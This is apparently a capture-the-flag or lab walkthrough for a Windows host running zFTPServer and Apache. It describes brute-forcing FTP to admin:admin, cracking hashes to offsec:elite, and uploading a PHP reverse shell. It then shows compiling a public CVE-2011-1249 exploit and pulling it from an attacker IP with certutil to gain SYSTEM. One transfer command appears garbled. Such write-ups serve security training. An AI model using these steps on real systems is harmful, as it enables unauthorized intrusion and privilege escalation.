

# Host:
```
192.168.164.46
```

# Nmap
```
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Jul 09 00:09 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Mar 23 13:28 accounts
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125

```
- Bruteforced ftp at port 21 to get *admin:admin* and found a password file in ftp server with hashes
- Cracked hashes to get *offsec:elite* now we can access the website on port 242
- We can access files we put through ftp in browser so uploaded a php reverse shell and accessed through browser to get a reverse shell.
- Now we got a shell:

# Privilege escalation

Checking privileges:
```
whoami /priv
```

PrintSpoofer didn't work.

We can use this exploit: https://github.com/Sp3c73rSh4d0w/CVE-2011-1249
```
git clone https://github.com/Sp3c73rSh4d0w/CVE-2011-1249.git
cd CVE-2011-1249/
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```
Now we have compiled the exploit.

Now transferring it:
```
python3 -m upload.server 80
```
```
certutil -urlcache -f http://192.168.45.244/newshell.exe newshell.exe
```

Now running it:



We have shell as **nt authority/system**

